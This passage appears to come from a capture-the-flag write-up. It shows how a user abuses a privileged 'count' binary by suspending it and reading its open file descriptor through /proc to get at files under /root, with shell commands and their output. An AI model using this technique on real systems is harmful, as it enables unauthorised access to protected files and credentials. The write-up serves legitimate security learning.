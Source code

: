 
This vulnerability doesn’t give me the ability to read as root. But it gives
me access into a folder I can’t access. For example, the listing of `/root`
is:

    
    
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh
    

For example, take `/root/.profile`. This file permissions are `-rw-r--r--`,
something any user can read. But because I can’t access `/root`, I still get
denied from a normal read:

    
    
    dasith@secret:/opt$ cat /root/.profile
    cat: /root/.profile: Permission denied
    

That is because I don’t have permissions on `/root`, not because of the file
itself.

If I try reading through `count`, the contents come back:

    
    
    dasith@secret:/opt$ ./count           
    Enter source file/directory name: /root/.profile
    
    Total characters = 161
    Total words      = 39
    Total lines      = 10
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps auxww | grep ./count
    dasith      1551  0.0  0.0   2488   592 pts/0    T    16:26   0:00 ./count
    dasith      1553  0.0  0.0   6432   740 pts/0    S+   16:27   0:00 grep --color=auto ./count
    dasith@secret:/opt$ head /proc/1551/fd/3
    # ~/.profile: executed by Bourne-compatible login shells.
    
    if [ "$BASH" ]; then
      if [ -f ~/.bashrc ]; then
        . ~/.bashrc
      fi
    fi
    